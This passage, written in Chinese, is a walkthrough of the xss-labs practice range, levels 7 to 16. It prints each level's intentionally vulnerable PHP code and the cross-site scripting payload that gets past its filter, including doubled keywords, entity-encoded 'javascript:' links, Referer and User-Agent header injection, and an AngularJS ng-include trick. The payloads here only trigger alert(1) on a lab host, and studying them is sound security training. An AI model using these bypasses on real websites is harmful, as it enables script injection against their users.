当我们进行尝试时，发现`script`,`on`,`href`都被替换了，考虑尝试双写来绕过



`payload`可以尝试`" oonnclick="alert(1)`，像前面一样输入`payload`之后，点击搜索再点击输入框即可



### level7.php源码

```php+HTML
     1	<!DOCTYPE html><!--STATUS OK--><html>
     2	<head>
     3	<meta http-equiv="content-type" content="text/html;charset=utf-8">
     4	<script>
     5	window.alert = function()  
     6	{     
     7	confirm("完成的不错！");
     8	 window.location.href="level8.php?keyword=nice try!"; 
     9	}
    10	</script>
    11	<title>欢迎来到level7</title>
    12	</head>
    13	<body>
    14	<h1 align=center>欢迎来到level7</h1>
    15	<?php 
    16	ini_set("display_errors", 0);
    17	$str =strtolower( $_GET["keyword"]);
    18	$str2=str_replace("script","",$str);
    19	$str3=str_replace("on","",$str2);
    20	$str4=str_replace("src","",$str3);
    21	$str5=str_replace("data","",$str4);
    22	$str6=str_replace("href","",$str5);
    23	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
    24	<form action=level7.php method=GET>
    25	<input name=keyword  value="'.$str6.'">
    26	<input type=submit name=submit value=搜索 />
    27	</form>
    28	</center>';
    29	?>
    30	<center></center>
    31	<?php 
    32	echo "<h3 align=center>payload的长度:".strlen($str6)."</h3>";
    33	?>
    34	</body>
    35	</html>
```


## level8

```php+HTML
     1	<!DOCTYPE html><!--STATUS OK--><html>
     2	<head>
     3	<meta http-equiv="content-type" content="text/html;charset=utf-8">
     4	<script>
     5	window.alert = function()  
     6	{     
     7	confirm("完成的不错！");
     8	 window.location.href="level9.php?keyword=not bad!"; 
     9	}
    10	</script>
    11	<title>欢迎来到level8</title>
    12	</head>
    13	<body>
    14	<h1 align=center>欢迎来到level8</h1>
    15	<?php 
    16	ini_set("display_errors", 0);
    17	$str = strtolower($_GET["keyword"]);
    18	$str2=str_replace("script","scr_ipt",$str);
    19	$str3=str_replace("on","o_n",$str2);
    20	$str4=str_replace("src","sr_c",$str3);
    21	$str5=str_replace("data","da_ta",$str4);
    22	$str6=str_replace("href","hr_ef",$str5);
    23	$str7=str_replace('"','&quot',$str6);
    24	echo '<center>
    25	<form action=level8.php method=GET>
    26	<input name=keyword  value="'.htmlspecialchars($str).'">
    27	<input type=submit name=submit value=添加友情链接 />
    28	</form>
    29	</center>';
    30	?>
    31	<?php
    32	 echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
    33	?>
    34	<center></center>
    35	<?php 
    36	echo "<h3 align=center>payload的长度:".strlen($str7)."</h3>";
    37	?>
    38	</body>
    39	</html>
```

由源码17-23行可知，源码对输入做了哪些限制

html实体编码在标签名/属性名里无效，但是在属性值里是可以被正常执行的，因此可以考虑利用html实体编码进行绕过。

`payload`为`javascr&#105;pt:alert(1)`，对字符`i`做了html实体编码



在点击添加友情链接后，点击友情链接，即可通过


## level9

```php+HTML
     1	<!DOCTYPE html><!--STATUS OK--><html>
     2	<head>
     3	<meta http-equiv="content-type" content="text/html;charset=utf-8">
     4	<script>
     5	window.alert = function()  
     6	{     
     7	confirm("完成的不错！");
     8	 window.location.href="level10.php?keyword=well done!"; 
     9	}
    10	</script>
    11	<title>欢迎来到level9</title>
    12	</head>
    13	<body>
    14	<h1 align=center>欢迎来到level9</h1>
    15	<?php 
    16	ini_set("display_errors", 0);
    17	$str = strtolower($_GET["keyword"]);
    18	$str2=str_replace("script","scr_ipt",$str);
    19	$str3=str_replace("on","o_n",$str2);
    20	$str4=str_replace("src","sr_c",$str3);
    21	$str5=str_replace("data","da_ta",$str4);
    22	$str6=str_replace("href","hr_ef",$str5);
    23	$str7=str_replace('"','&quot',$str6);
    24	echo '<center>
    25	<form action=level9.php method=GET>
    26	<input name=keyword  value="'.htmlspecialchars($str).'">
    27	<input type=submit name=submit value=添加友情链接 />
    28	</form>
    29	</center>';
    30	?>
    31	<?php
    32	if(false===strpos($str7,'http://'))
    33	{
    34	  echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';
    35	        }
    36	else
    37	{
    38	  echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';
    39	}
    40	?>
    41	<center></center>
    42	<?php 
    43	echo "<h3 align=center>payload的长度:".strlen($str7)."</h3>";
    44	?>
    45	</body>
    46	</html>
```

看到第32行有个判断条件判断 `$str7` 这个字符串里是否不包含 `http://`，而且17 - 23行又分别做了字符替换过滤。

`payload`为`javascr&#105;pt:alert(1)//http://`

那这里的话，是利用`//`去注释掉这个`http://`,同时将`i`进行html实体编码，来让代码执行。



添加链接后，点击这个友情链接，即可通关




## level10

```php+HTML
     1	<!DOCTYPE html><!--STATUS OK--><html>
     2	<head>
     3	<meta http-equiv="content-type" content="text/html;charset=utf-8">
     4	<script>
     5	window.alert = function()  
     6	{     
     7	confirm("完成的不错！");
     8	 window.location.href="level11.php?keyword=good job!"; 
     9	}
    10	</script>
    11	<title>欢迎来到level10</title>
    12	</head>
    13	<body>
    14	<h1 align=center>欢迎来到level10</h1>
    15	<?php 
    16	ini_set("display_errors", 0);
    17	$str = $_GET["keyword"];
    18	$str11 = $_GET["t_sort"];
    19	$str22=str_replace(">","",$str11);
    20	$str33=str_replace("<","",$str22);
    21	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
    22	<form id=search>
    23	<input name="t_link"  value="'.'" type="hidden">
    24	<input name="t_history"  value="'.'" type="hidden">
    25	<input name="t_sort"  value="'.$str33.'" type="hidden">
    26	</form>
    27	</center>';
    28	?>
    29	<center></center>
    30	<?php 
    31	echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
    32	?>
    33	</body>
    34	</html>
```

看到源码，25行存在`$str33`注入点，17-20行是对输入的替换过滤限制。仔细看其实第17行的`keyword`应该是用不太到，下面一行的`t_sort`才是真正的点。

这里是只对尖括号`<`，`>`进行了限制，那么`on`一类的便可以使用了。

`payload `= `t_sort=" onclick=alert(1) type="text`，`type=text`可以让隐藏的输入框显现出来。

在url中键入`payload`后，点击输入框，即可通关




## level11

```php+HTML
     1	<!DOCTYPE html><!--STATUS OK--><html>
     2	<head>
     3	<meta http-equiv="content-type" content="text/html;charset=utf-8">
     4	<script>
     5	window.alert = function()  
     6	{     
     7	confirm("完成的不错！");
     8	 window.location.href="level12.php?keyword=good job!"; 
     9	}
    10	</script>
    11	<title>欢迎来到level11</title>
    12	</head>
    13	<body>
    14	<h1 align=center>欢迎来到level11</h1>
    15	<?php 
    16	ini_set("display_errors", 0);
    17	$str = $_GET["keyword"];
    18	$str00 = $_GET["t_sort"];
    19	$str11=$_SERVER['HTTP_REFERER'];
    20	$str22=str_replace(">","",$str11);
    21	$str33=str_replace("<","",$str22);
    22	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
    23	<form id=search>
    24	<input name="t_link"  value="'.'" type="hidden">
    25	<input name="t_history"  value="'.'" type="hidden">
    26	<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
    27	<input name="t_ref"  value="'.$str33.'" type="hidden">
    28	</form>
    29	</center>';
    30	?>
    31	<center></center>
    32	<?php 
    33	echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
    34	?>
    35	</body>
    36	</html>
```

注入点在27行处，传入参数应该是通过`Referer`这个请求头来传，用`hackbar`，`Burpsuite`等一下都可以来做。

`Referer: " onclick=alert(1) type="text`

```http
GET /xss-labs/level11.php?keyword=111 HTTP/1.1
Host: 192.168.17.144
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: " onclick=alert(1) type="text
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

在`Burpsuite`上构造完后，`forward`一下，打开浏览器，点击一下出现的输入框




## level12

```php+HTML
     1	<!DOCTYPE html><!--STATUS OK--><html>
     2	<head>
     3	<meta http-equiv="content-type" content="text/html;charset=utf-8">
     4	<script>
     5	window.alert = function()  
     6	{     
     7	confirm("完成的不错！");
     8	 window.location.href="level13.php?keyword=good job!"; 
     9	}
    10	</script>
    11	<title>欢迎来到level12</title>
    12	</head>
    13	<body>
    14	<h1 align=center>欢迎来到level12</h1>
    15	<?php 
    16	ini_set("display_errors", 0);
    17	$str = $_GET["keyword"];
    18	$str00 = $_GET["t_sort"];
    19	$str11=$_SERVER['HTTP_USER_AGENT'];
    20	$str22=str_replace(">","",$str11);
    21	$str33=str_replace("<","",$str22);
    22	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
    23	<form id=search>
    24	<input name="t_link"  value="'.'" type="hidden">
    25	<input name="t_history"  value="'.'" type="hidden">
    26	<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
    27	<input name="t_ua"  value="'.$str33.'" type="hidden">
    28	</form>
    29	</center>';
    30	?>
    31	<center></center>
    32	<?php 
    33	echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
    34	?>
    35	</body>
    36	</html>
```

看源码，17-21行，得知`User-Agen`是一个传入点，限制了尖括号`<`，`>`的传入

```http
GET /xss-labs/level12.php?keyword=111 HTTP/1.1
Host: 192.168.17.144
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: " onclick=alert(1) type="text
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```




## level13

```php+HTML
     1	<!DOCTYPE html><!--STATUS OK--><html>
     2	<head>
     3	<meta http-equiv="content-type" content="text/html;charset=utf-8">
     4	<script>
     5	window.alert = function()  
     6	{     
     7	confirm("完成的不错！");
     8	 window.location.href="level14.php"; 
     9	}
    10	</script>
    11	<title>欢迎来到level13</title>
    12	</head>
    13	<body>
    14	<h1 align=center>欢迎来到level13</h1>
    15	<?php 
    16	setcookie("user", "call me maybe?", time()+3600);
    17	ini_set("display_errors", 0);
    18	$str = $_GET["keyword"];
    19	$str00 = $_GET["t_sort"];
    20	$str11=$_COOKIE["user"];
    21	$str22=str_replace(">","",$str11);
    22	$str33=str_replace("<","",$str22);
    23	echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
    24	<form id=search>
    25	<input name="t_link"  value="'.'" type="hidden">
    26	<input name="t_history"  value="'.'" type="hidden">
    27	<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
    28	<input name="t_cook"  value="'.$str33.'" type="hidden">
    29	</form>
    30	</center>';
    31	?>
    32	<center></center>
    33	<?php 
    34	echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
    35	?>
    36	</body>
    37	</html>
```

可以看到，注入和上一关是差不多的，只是地方稍有改变。如果只是看`http`报文，也大致可以判断出，注入点在`Cookie`请求体中的`user`，如下

```http
GET /xss-labs/level13.php?keyword=good%20job! HTTP/1.1
Host: 192.168.17.144
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.17.144/xss-labs/level12.php?keyword=111
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: user=call+me+maybe%3F
Connection: close
```




## level14

```php+HTML
     1	<html>
     2	<head>
     3	<meta http-equiv="content-type" content="text/html;charset=utf-8">
     4	<title>欢迎来到level14</title>
     5	</head>
     6	<body>
     7	<h1 align=center>欢迎来到level14</h1>
     8	<center><iframe name="leftframe" marginwidth=10 marginheight=10 src="http://www.exifviewer.org/" frameborder=no width="80%" scrolling="no" height=80%></iframe></center><center>这关成功后不会自动跳转。成功者<a href=/xss/level15.php?src=1.gif>点我进level15</a></center>
     9	</body>
    10	</html>
```


## level15

```php+HTML
     1	<html ng-app>
     2	<head>
     3	        <meta charset="utf-8">
     4	        <script src="angular.min.js"></script>
     5	<script>
     6	window.alert = function()  
     7	{     
     8	confirm("完成的不错！");
     9	 window.location.href="level16.php?keyword=test"; 
    10	}
    11	</script>
    12	<title>欢迎来到level15</title>
    13	</head>
    14	<h1 align=center>欢迎来到第15关，自己想个办法走出去吧！</h1>
    15	<p align=center></p>
    16	<?php 
    17	ini_set("display_errors", 0);
    18	$str = $_GET["src"];
    19	echo '<body><span class="ng-include:'.htmlspecialchars($str).'"></span></body>';
    20	?>
```

`ng-include` 是 **AngularJS** 里的一个指令，字面意思就是“包含”（include）。它的作用类似于服务端的 `include`，但发生在浏览器端：

> 把一个外部 HTML 文件或模板加载进来，插入到当前元素内部，并且让 AngularJS 继续解析里面的内容。

如果是这样，那么是否可以考虑将前面的一些文件加载到此页面，并利用其文件实现攻击注入

GET传参`src='level1.php'`，实现`level1.php`的加载，`level1.php`源码如下：

```php+HTML
<?php 
ini_set("display_errors", 0);
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>
<center></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
```

```markdown
`ng-include` 拿到 `level1.php` 返回的 HTML 后，也是通过 `innerHTML` 插入的。但浏览器规范规定：通过 `innerHTML` 插入的 `<script>` 标签不会自动执行。所以 `alert(1)` 不会运行。
而 `<a href="javascript:alert(1)">` 不是自动执行，它需要用户点击。点击时浏览器会执行 javascript: 协议，所以能弹。
```

`payload`为`?src='level1.php?name=<a href=javascript:alert(1)>111</a>'`




## level16

```php+HTML
     1	<!DOCTYPE html><!--STATUS OK--><html>
     2	<head>
     3	<meta http-equiv="content-type" content="text/html;charset=utf-8">
     4	<script>
     5	window.alert = function()  
     6	{     
     7	confirm("完成的不错！");
     8	 window.location.href="level17.php?arg01=a&arg02=b"; 
     9	}
    10	</script>
    11	<title>欢迎来到level16</title>
    12	</head>
    13	<body>
    14	<h1 align=center>欢迎来到level16</h1>
    15	<?php 
    16	ini_set("display_errors", 0);
    17	$str = strtolower($_GET["keyword"]);
    18	$str2=str_replace("script","&nbsp;",$str);
    19	$str3=str_replace(" ","&nbsp;",$str2);
    20	$str4=str_replace("/","&nbsp;",$str3);
    21	$str5=str_replace("	","&nbsp;",$str4);
    22	echo "<center>".$str5."</center>";
    23	?>
    24	<center></center>
    25	<?php 
    26	echo "<h3 align=center>payload的长度:".strlen($str5)."</h3>";
    27	?>
    28	</body>
    29	</html>
```

`payload`为`?keyword=`，利用`%0a`分隔属性，利用用 `` 标签的 `onerror` 事件触发执行`alert(1)`

